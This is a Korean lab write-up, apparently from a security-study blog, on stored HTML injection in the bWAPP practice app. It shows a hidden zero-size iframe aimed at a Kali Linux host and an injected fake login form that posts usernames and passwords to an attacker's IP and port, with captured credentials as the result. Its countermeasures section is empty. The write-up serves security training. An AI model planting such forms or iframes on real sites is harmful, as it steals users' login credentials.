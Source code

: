```yaml
---
title: "[bWAPP] 1. Injection - HTML Injection - Stored"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## Injection - Stored

공격자가 서버(게시판)에 태그/스크립트를 저장시켜, 클라이언트가 게시판을 읽을 경우 태그/스크립트가 실행되는 방식.

이로 인해 쿠키 정보 탈취, 악성 코드 유입, 랜섬웨어 등의 피해로 이어질 수 있음.

<br>

<br>

## HTML Injection - Stored(Blog)

![image-20220316004330740](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316004330740.png)

- 블로그 게시판 방식

<br>

### Iframe 이용

### iframe

inline frame으로서 해당 웹 페이지 안에 어떠한 제한 없이 또 다른 하나의 웹 페이지를 삽입 가능

![image-20220316005939311](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316005939311.png)

![image-20220316005851328](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316005851328.png)

![image-20220316004856928](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316004856928.png)

- 먼저 리눅스에서 포트를 열어주고
- 다음과 같이 사이즈를 모두 0으로하고 호스트주소는 칼리리눅스IP(연결할 서버 IP), 포트는 연결할 포트번호로 지정해주어 삽입할 웹 페이지를 숨겨준 후에 지정한 포트로 연결을 시도해보자

<br>

### 리눅스

![image-20220316005724268](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316005724268.png)

- 연결 확인

<br>

### 로그인 폼 생성

![image-20220316010219273](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316010219273.png)

```html
<form name="login" action="http://192.168.15.130:1234/test.html">
<table>
<tr><td>Username:</td><td><input type="text" name="username"/></td></tr>
<tr><td>Password:</td><td><input type="password"" name="password"/></td></tr>
</table>
<input type="submit" value="Login" />
</form>
```

<br>

![image-20220316005939311](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316005939311.png)

- 다시 포트 열어준 후

<br>

![image-20220316010302249](image-20220316010302249.png)

- 로그인

<br>

### 결과

![image-20220316011025192](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316011025192.png)

- 다음과 같이 계정 정보 얻을 수 있음

<br>

<br>

## 대응방안



